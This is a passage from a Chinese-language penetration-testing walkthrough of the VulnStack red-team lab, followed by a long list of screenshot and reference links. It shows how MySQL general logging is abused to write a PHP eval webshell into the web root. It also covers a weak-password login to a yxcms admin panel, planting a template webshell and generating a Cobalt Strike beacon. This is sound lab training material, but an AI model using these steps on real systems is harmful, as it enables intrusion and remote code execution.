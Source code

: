 那我们来尝试日志写`shell`，开启日志记录:`set global general_log = "ON";`

![][18]

查看当前的日志目录:`show variables like 'general%';：`

![][19]

指定日志文件：`set global general_log_file = "C:/phpStudy/www/1.php";：`

![][20]

将一句话木马写入指定的文件中

```
SELECT '<?php eval($_POST["cmd"]);?>'
```

![][21]

然后蚁剑连接：

![][22]

## 另外一种方式获取 shell

先访问一下`192.168.52.143/yxcms`，界面如下；

![][23]

访问之前解压的文件夹路径发现基本都有目录遍历漏洞：

![][24]

测试弱密码`admin/123456`登录后台：`/index.php?r=admin`

在前台模板文件中添加一句话木马连接也可获取`shell`：

![][25]

# 0x03 内网及域渗透

`webshell`反弹`shell`给`cs`，`cs`创建`Listener`，`payload`选择`beacon http`

![][26]

然后攻击 -> 生成后门 -> `Windows Executable(S)`，选择刚创建的`Listener`：

![][27]

利用蚁剑上传之前需要先执行下关掉防火墙的命令，不然在服务器端管理员可能会看到这样的提示就尴尬了：

![][28]


[1]: http://vulnstack.qiyuanxuetang.net/vuln/detail/2/
[2]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_163813.png
[3]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_163920.png
[4]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_163931.png
[5]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_163945.png
[6]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_163958.png
[7]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164002.png
[8]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164006.png
[9]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164010.png
[10]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164014.png
[11]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164048.png
[12]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164052.png
[13]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164055.png
[14]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_091506.png
[15]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_091659.png
[16]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_092635.png
[17]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164100.png
[18]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164104.png
[19]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164108.png
[20]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164112.png
[21]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164149.png
[22]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164156.png
[23]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_195351.png
[24]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_200035.png
[25]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_093332.png
[26]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164228.png
[27]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164234.png
[28]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200411_164240.png
[29]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_144618.png
[30]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_150604.png
[31]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_151108.png
[32]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_151353.png
[33]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_152005.png
[34]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_152038.png
[35]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_152105.png
[36]: https://mp.weixin.qq.com/s/aXEJpZVxxSkFUfG8TqsxHw
[37]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_144703.png
[38]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_152622.png
[39]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_145710.png
[40]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_144909.png
[41]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_145414.png
[42]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_145053.png
[43]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_150027.png
[44]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_152343.png
[45]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_153210.png
[46]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_153540.png
[47]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_153623.png
[48]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_153653.png
[49]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_153350.png
[50]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_153738.png
[51]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_153903.png
[52]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_101444.png
[53]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_095932.png
[54]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_100025.png
[55]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_160329.png
[56]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_160610.png
[57]: https://github.com/rsmudge/ElevateKit
[58]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_161123.png
[59]: https://github.com/k8gege/Ladon
[60]: https://github.com/k8gege/Ladon/wiki
[61]: http://k8gege.org/p/648af4b3.html
[62]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_162658.png
[63]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_163526.png
[64]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_163807.png
[65]: https://github.com/BloodHoundAD/BloodHound
[66]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_200911.png
[67]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_203406.png
[68]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_204230.png
[69]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_204506.png
[70]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200527_205350.png
[71]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_100224.png
[72]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_102559.png
[73]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_102427.png
[74]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_103504.png
[75]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_103559.png
[76]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_111222.png
[77]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_111954.png
[78]: https://img.soapffz.com/archives_img/2020/04/11/archives_20200531_110014.png
[79]: https://www.freebuf.com/column/231111.html
[80]: https://www.freebuf.com/articles/web/226497.html
[81]: https://blog.csdn.net/qq_36119192/article/details/103528138
[82]: https://zhzhdoai.github.io/2020/01/28/%E5%9F%9F%E6%B8%97%E9%80%8F-VulnStack-%E7%BA%A2%E6%97%A5%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97-%E4%B8%80/
[83]: https://www.cooyf.com/bj/vulnstack1.html
[84]: https://mp.weixin.qq.com/s/JpN3bjJ2yQhy2XxEARHrZQ
[85]: https://mp.weixin.qq.com/s/rTfizm_b_c3NRS-37n3zsA
[86]: https://mp.weixin.qq.com/s/11ImZTDTPAF19moSTynBOA
[87]: https://www.c0bra.xyz/2019/12/14/Cobalt-Strike%E7%B3%BB%E5%88%979/
[88]: https://github.com/aleenzz/Cobalt_Strike_wiki/blob/master/%E7%AC%AC%E4%B8%89%E8%8A%82%5BSMB%20Beacon%5D.md